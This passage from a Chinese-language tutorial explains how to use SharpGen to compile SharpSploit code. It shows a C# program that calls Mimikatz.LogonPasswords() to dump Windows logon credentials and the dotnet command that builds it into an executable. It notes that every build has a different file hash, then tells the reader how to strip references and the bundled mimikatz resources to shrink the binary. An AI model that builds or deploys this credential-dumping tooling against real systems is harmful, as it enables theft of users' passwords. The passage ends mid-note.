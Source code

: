 ### 2.对完整代码文件进行编译

example.txt的内容如下：

```
using System;
using SharpSploit.Execution;
using SharpSploit.Credentials;

class Program
{
    static void Main()
    {
        Console.WriteLine(Mimikatz.LogonPasswords());
        return;
    }
}
```

命令如下：

```
dotnet bin/Release/netcoreapp2.1/SharpGen.dll -f example.exe --source-file example.txt
```

执行过程显示编译代码，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-10-17/2-2.png)

由于指定了类名为`Program`，所以不再具有随机类名的功能

**注：**

SharpGen使用了Rosyln进行动态编译，每次生成的文件hash都会不一样

## 0x04 高级功能
---

### 1.缩小生成文件的体积

#### (1)取消对指定dll的引用

编辑文件`SharpGen/References/references.yml`

此处的dll通常为C#程序使用的引用文件

不需要的dll名称属性由`Enabled: true`改为`Enabled: false`

#### (2)取消对指定dll的引用

编辑文件`SharpGen/Resources/resources.yml`

此处的dll为实现mimikatz的功能

不需要的dll名称属性由`Enabled: true`改为`Enabled: false`

**注：**

